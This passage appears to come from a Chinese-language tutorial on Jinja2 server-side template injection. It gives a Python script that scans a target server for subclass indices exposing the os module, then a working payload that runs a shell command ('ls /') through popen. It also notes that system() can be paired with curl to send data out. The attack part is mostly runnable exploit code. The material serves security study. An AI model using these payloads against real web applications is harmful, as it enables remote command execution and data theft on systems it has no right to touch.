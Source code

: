 ![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174655-2436b6ce-bd3e-1.png)

我们可以看到，使用eval函数执行命令也是调用的os模块，那我们直接调用os模块不是更简单？

#### 寻找 os 模块执行命令

Python的 os 模块中有`system`和`popen`这两个函数可用来执行命令。其中`system()`函数执行命令是没有回显的，我们可以使用`system()`函数配合`curl`外带数据；`popen()`函数执行命令有回显。所以比较常用的函数为`popen()`函数，而当`popen()`函数被过滤掉时，可以使用`system()`函数代替。

首先编写脚本遍历目标Python环境中含有os模块的类的索引号：

```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"

    res = requests.get(url=url, headers=headers)
    if 'os.py' in res.text:
        print(i)

# 可以得到一大堆类
64
65
66
67
68
79
80
81
83
117
147
154
161
162
163
164
...
```

随便挑一个类构造payload执行命令即可：

```
{{''.__class__.__bases__[0].__subclasses__()[79].__init__.__globals__['os'].popen('ls /').read()}}
```

但是该方法遍历得到的类不准确，因为一些不相关的类名中也存在字符串 “os”，所以我们还要探索更有效的方法。
